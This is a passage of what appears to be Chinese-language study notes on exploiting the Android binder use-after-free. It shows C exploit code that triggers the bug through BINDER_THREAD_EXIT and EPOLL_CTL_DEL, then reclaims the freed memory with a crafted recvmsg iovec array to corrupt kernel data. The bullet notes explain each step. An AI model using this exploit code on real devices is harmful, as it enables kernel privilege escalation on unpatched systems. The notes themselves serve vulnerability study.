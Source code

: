 ```c
  if (socketpair(AF_UNIX, SOCK_STREAM, 0, socks)) err(1, "socketpair");
  if (write(socks[1], "X", 1) != 1) err(1, "write socket dummy byte");

  pid_t fork_ret = fork();
  if (fork_ret == -1) err(1, "fork");
  if (fork_ret == 0){
    /* Child process */
    prctl(PR_SET_PDEATHSIG, SIGKILL);
    sleep(2);
    printf("CHILD: Doing EPOLL_CTL_DEL.\n");
    epoll_ctl(epfd, EPOLL_CTL_DEL, binder_fd, &event);
    printf("CHILD: Finished EPOLL_CTL_DEL.\n");
    if (write(socks[1], second_write_chunk, sizeof(second_write_chunk)) != sizeof(second_write_chunk))
      err(1, "write second chunk to socket");
    exit(0);
  }
  ioctl(binder_fd, BINDER_THREAD_EXIT, NULL);
  struct msghdr msg = {
    .msg_iov = iovec_array,
    .msg_iovlen = IOVEC_ARRAY_SZ
  };
  printf("PARENT: Doing recvmsg.\n");
  int recvmsg_result = recvmsg(socks[0], &msg, MSG_WAITALL);
  printf("PARENT recvmsg() returns %d, expected %lu\n", recvmsg_result,
      (unsigned long)(iovec_array[IOVEC_INDX_FOR_WQ].iov_len +
      iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len +
      iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_len));
}
```
- 进行`EPOLL_CTL_ADD`，相同的操作

- 初始化`iovec_array`，构造数据

- 初始化`second_write_chunk`，构造数据

- `socketpair`初始化socket，并向`socks[1]`写入1字节

    - 学习：[socketpair、recvmsg](https://blog.csdn.net/weixin_40039738/article/details/81095013)

- fork生成子进程，sleep(2)，看父进程

- 进行`BINDER_THREAD_EXIT`，此时`binder_thread`结构体已被释放

- 调用`recvmsg`，读取之前写入socket的1字节，此时为第一次读取（recvmsg#1）

> `recvmsg`和`writev`都可以将用户空间的数据复制到内核空间，所以调用`recvmsg`时`binder_thread`的内存被占位

- socket中没有更多数据可读取，此时父进程阻塞，转到子进程

- 子进程调用`EPOLL_CTL_DEL`触发uaf，与之前的情况一样，`iovec_array[10].iov_len`和`iovec_array[11].iov_base`被改写为`wait.task_list`地址

- 子进程调用write向socket写入`second_write_chunk`，此时socket中存在数据，父进程解除阻塞状态，子进程结束，转到父进程

- 父进程根据`iovec_array[11].iov_len`读取0x28大小的数据到`iovec_array[11].iov_base`中，此时为第二次读取（recvmsg#2）
